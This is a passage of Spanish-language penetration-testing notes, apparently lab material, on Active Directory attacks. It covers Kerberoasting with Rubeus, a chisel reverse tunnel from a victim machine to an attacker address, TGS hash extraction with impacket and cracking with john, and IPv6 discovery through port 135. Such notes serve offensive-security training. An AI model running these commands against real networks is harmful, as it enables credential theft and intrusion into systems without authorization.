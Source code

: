 
#### PORT FORWARDING CON CHISEL:

1. Con *Rubeus* podemos generar el TGS para posteriormente crackearlo como hemos hecho un poco más arriba...

```shell
> .\Rubeus.exe kerberoast /creduser:contoso.local\amanda /credpassword:miSuperPassword123
....
```

2. ... O hacer port forwarding con *chisel* para poder atacar directamente al puerto 88 (kerberos). Para ello mapearemos los puertos internos de la máquina víctima hacia nuestra máquina para poder atacarlos de una manera más cómoda. Copiamos el archivo *chisel.exe* a nuestra máquina víctima. https://github.com/jpillora/chisel/releases/tag/v1.8.1

- Del lado de nustro equipo iniciaremos *chisel* en modo servidor:

```shell
$ chisel server --reverse -p 1234
```

- Del lado la máquina víctima iniciaremos *chisel.exe* para mapear los puertos 88 y 389 TCP:

```shell
> chisel.exe client 10.10.14.44:1234 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```

- De esta manera todo lo que escaneemos en nuestra máquina en localhost:88 y localhost:389 en realidad estaremos escaneando los puertos de la máquina víctima. Para comprobar los puertos que tenemos ocupados los podremos hacer con el comando de Linux *lsof*:

```bash
$ lsof -i:88
...
$ lsof -i:389
```

2. Vamos a proceder a extraer el TGS ahora que tenemos expuestos los puertos en nuestra máquina:

```shell
$ impacket-GetUserSPNs contoso.local/amanda:miSuperPassword123 -request -dc-ip 127.0.0.1 
```

3. Copiamos el hash extraído y lo crackeamos con nuestro amigo *john*:

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```


------

#### ATAQUES POR IPV6

1. A veces no tenemos expuestos de primeras los puertos 88, 389 y 445 TCP en un escaneo normal en IPv4. Para ello usaremos la herramienta *IOXIDResolver.py* que aprovechando el puerto 135 TCP se puede extraer la IPv6. https://github.com/mubix/IOXIDResolver

```shell
$ python3 IOXIDResolver.py -t 10.10.10.50
```
